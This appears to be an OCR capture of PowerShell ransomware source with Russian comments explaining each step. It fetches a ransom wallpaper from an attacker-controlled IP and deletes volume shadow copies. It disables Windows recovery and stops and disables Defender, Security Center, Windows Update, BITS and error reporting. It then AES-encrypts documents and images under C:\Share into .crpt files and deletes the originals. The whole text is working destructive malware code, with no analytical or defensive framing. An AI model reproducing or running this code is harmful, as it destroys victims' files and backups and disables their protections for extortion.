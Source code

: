 ```powershell
        $_.Exception.Response.StatusCode.Value__} # кодирование ключей и отправка их

    $background = "http://$IP/wall.jpg"
    Invoke-WebRequest -Uri $background -OutFile "/users/$env:USERNAME/wall.jpg"
    Start-Sleep -s 2
    $wallpaper = "C:/users/$env:USERNAME/wall.jpg"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name Wallpaper -value "$wallpaper"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name WallpaperStyle -value "10" # смена картинки рабочего стола
    Start-Sleep -s 2
    rundll32.exe user32.dll, UpdatePerUserSystemParameters, 1 , $False # подгрузка dll в память (она нужна для работы некоторых powershell командлетов)

    vssadmin delete shadows /all /quiet; # удаление бэкапов
    spsv vss -ErrorAction SilentlyContinue; # остановка сервиса
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='vss'").StartMode) -ne "Disabled"){
    set-service vss -StartupType Disabled}; # удаление сервиса из автозапуска

    bcdedit /set recoveryenabled No|Out-Null;
    bcdedit /set bootstatuspolicy ignoreallfailures|Out-Null; # отключение средств восстановления windows

    spsv Wscsvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wscsvc'").StartMode) -ne "Disabled"){
    set-service Wscsvc -StartupType Disabled};
    spsv WinDefend -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WinDefend'").StartMode) -ne "Disabled"){
    set-service WinDefend -StartupType Disabled};
    spsv Wuauserv -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wuauserv'").StartMode) -ne "Disabled"){
    set-service Wuauserv -StartupType Disabled};
    spsv BITS -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='BITS'").StartMode) -ne "Disabled"){
    set-service BITS -StartupType Disabled};
    spsv ERSvc -ErrorAction SilentlyContinue;
    spsv WerSvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WerSvc'").StartMode) -ne "Disabled"){
    set-service WerSvc -StartupType Disabled}; # удаление сервисов из автозапуска

    Write-Output "Encryption phase" 

    $encryptor=$aesManaged.CreateEncryptor();
    $directory = "C:\Share"
    $files=gci $directory -Recurse -Include *.txt,*.pdf,*.docx,*.doc,*.jpg;
    # рекурсивное шифрование файлов 
    foreach($file in $files) {
        $bytes=[System.IO.File]::ReadAllBytes($($file.FullName));
        $encryptedData=$encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
        [byte[]] $fullData=$aesManaged.IV + $encryptedData;
        [System.IO.File]::WriteAllBytes($($file.FullName+".crpt"),$fullData);
        Remove-Item $file; 
    }
}
```

